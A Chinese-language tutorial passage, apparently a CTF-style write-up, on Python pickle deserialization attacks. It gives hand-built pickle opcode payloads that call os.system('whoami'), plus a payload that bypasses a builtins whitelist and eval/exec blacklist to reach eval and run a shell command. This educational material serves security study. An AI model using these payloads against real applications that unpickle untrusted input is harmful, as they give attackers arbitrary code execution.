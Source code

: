 上面用了**R**做了函数执行，同时**i**，**o**稍作修改也可以达到一样的效果

```python
# o
'''(cos
system
S'whoami'
o.'''
pickletools->
    0: (    MARK
    1: c        GLOBAL     'os system'
   12: S        STRING     'whoami'
   22: o        OBJ        (MARK at 0)
   23: .    STOP


# i
'''(S'whoami'
ios
system
.'''
pickletools->
    0: (    MARK
    1: S        STRING     'whoami'
   11: i        INST       'os system' (MARK at 0)
   22: .    STOP

```

拿p神经典的code_break试试：

- 模块白名单：`builtins`
- 子模块黑名单：`'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'`

因为只禁用了子模块，我们可以先通过一轮global+get重新筛选出builtins，再构造即可。

先构造`__builtins__.globals().get('__builtins__')`拿到可以执行eval的builtins,再执行`builtins.getattr(builtins, 'eval'),('__import__("os").system("whoami")',)`即可。

```python
cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'__builtins__'   #拿到bultins
tRS'eval'
tRp1
(S'__import__("os").system("whoami")'
tR.
```
